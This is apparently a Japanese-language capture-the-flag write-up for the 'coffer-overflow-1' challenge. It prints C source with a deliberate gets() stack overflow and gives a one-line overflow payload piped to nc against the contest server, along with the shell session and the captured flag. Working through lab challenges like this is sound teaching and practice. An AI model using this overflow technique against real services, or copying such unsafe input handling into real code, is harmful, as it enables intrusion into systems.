 # # <!--XXXXXXXXXX-->
The coffers keep getting stronger! You'll need to use the source, Luke.  
nc 2020.redpwnc.tf 31255  
[coffer-overflow-1](coffer-overflow-1)　　　　[coffer-overflow-1.c](coffer-overflow-1.c)  

# Solution
coffer-overflow-1とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-1.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
codeの中身を書き換えればいいようだ。  
nameをオーバーフローさせればよいことがすぐにわかる。  
0xcafebabeにしてやればいいのでエンディアンに注意しながら調整すると以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

## flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}